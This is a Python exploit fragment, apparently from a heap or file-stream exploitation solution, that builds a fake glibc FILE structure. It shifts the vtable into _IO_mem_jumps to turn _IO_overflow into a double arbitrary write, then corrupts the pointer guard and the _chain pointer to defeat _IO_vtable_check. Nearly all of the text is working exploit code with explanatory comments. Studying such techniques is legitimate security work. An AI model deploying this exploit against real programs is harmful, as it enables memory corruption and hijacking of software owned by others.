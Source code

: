 ```python

_flags = p32(0x0)
_flags_byte_hole = p32(0x0)
_IO_read_ptr = 0x0
_IO_read_end = 0x0
_IO_read_base = 0x0
_IO_write_base = what
_IO_write_ptr = _IO_write_base + what2
_IO_write_end = 0x0
_IO_buf_base = 0x0
_IO_buf_end = 0x0
_IO_save_base = 0x0
_IO_backup_base = 0x0
_IO_save_end = 0x0
_markers = 0x0

_chain = (libc.sym._IO_2_1_stdout_ + 8) - 104 # so our _chain => back to the heap in our fake FILE stream.

_fileno = p32(0x0)
_flags2 = p32(0x0)
_old_offset = 0x0
_cur_column = p16(0x0)
_vtable_offset = p8(0x0)
_shortbuf = p8(0x0)
_shortbuf_byte_hole = p32(0x0)
_lock = libc.address + 0x1f21f0
_offset = 0x0
_codecvt = 0x0
_wide_data = _lock
_freeres_list = 0x0
_freeres_buf = 0x0
__pad5 = 0x0
_mode = p32(0x0)
_unused2 = b'\x00'*0x14

# here is the trick, by shifting the vtable in the range of __libc_IO_vtables we are not aborting the program, it is totally allowed.
vtable = libc.sym._IO_mem_jumps + 0x48  # now __overflow points to _IO_mem_sync, our magical two arbitrary write function ;)

fs = _flags + _flags_byte_hole + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base) + p64(_IO_write_base) + p64(_IO_write_ptr) \
   + p64(_IO_write_end) + p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end) \
   + p64(_markers) + p64(_chain) + _fileno + _flags2 + p64(_old_offset) + _cur_column + _vtable_offset + _shortbuf + _shortbuf_byte_hole + p64(_lock) + p64(_offset) \
   + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf) + p64(__pad5) + _mode + _unused2 \
   + p64(vtable) + p64(0)*2 + p64(where) + p64(where2)

# ===========================================================
# Here we are done crafting our new overflowed FILE stream. |
# =========================================================== 

pointer_guard = libc.address - 0x2890
where = pointer_guard # defeat _IO_vtable_check by corrupting the pointer guard.
what = libc.sym._IO_vtable_check

where2 = libc.sym._IO_2_1_stdout_ + 1 # with this way we corrupt the least significant byte of our _chain pointer to point to a new final fake FILE stream.
what2 = 0x1 # we null out the least significant byte of our _chain pointer. (any value lower than 0x01xxxxxxx will do the trick but we have need a value > 0 inorder to trigger _IO_OVERFLOW)
```